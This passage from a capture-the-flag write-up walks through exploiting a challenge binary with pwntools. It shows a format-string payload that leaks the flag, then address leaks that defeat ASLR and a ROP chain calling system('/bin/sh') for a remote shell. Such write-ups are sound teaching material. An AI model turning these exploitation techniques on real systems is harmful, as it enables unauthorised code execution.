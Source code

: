 The final exploit now looks like this:

```python
payload = fit({0: b'%25$s', 136: b'\x84'})
io.sendline(payload)
```

This works by:

- First, overwriting the pointer from `480` to `482` which is the content of the flag.
- Printing the 25th variable on the stack which is this exact pointer.

The full unintended exploit can be found in [exploit_unintended.py](exploit_unintended.py).

## Intended solution

For this solution, we first leak a libc address via the string format vulnerability and jump back into `tellflag` using
the buffer overflow:

```python
io.recvuntil(b"else?")

payload = flat({0: b'%p' * 50, 167: chr(0x9b).encode()})  # jump back into task
io.sendline(payload)

leak = str(io.recvline()).split('0x')
leak_task = int(leak[27], 16)
leak_libc = int(leak[37].replace('(nil)', ''), 16)

exe.address = leak_task - (exe.sym['task'] + 427)
libc.address = leak_libc - libc.sym['__libc_start_main'] + 0x30
```

With this we have defeated ASLR. The exact offsets that I used above can be found using GDB. Next, we get a remote
shell:

```python
rop = ROP(libc)
ret = rop.find_gadget(['ret'])

rop.raw(ret)
binsh = next(libc.search(b'/bin/sh\x00'))
rop.system(binsh)

rop.raw(ret)
rop.raw(ret)
rop.raw(ret)
rop.call(exe.sym['tellflag'])
```

With this we get a remote shell but keep in mind that the `flag` file has already been deleted at this point. Instead,
we take a peek at `/proc/<pid>/maps` to identify the base of the heap:

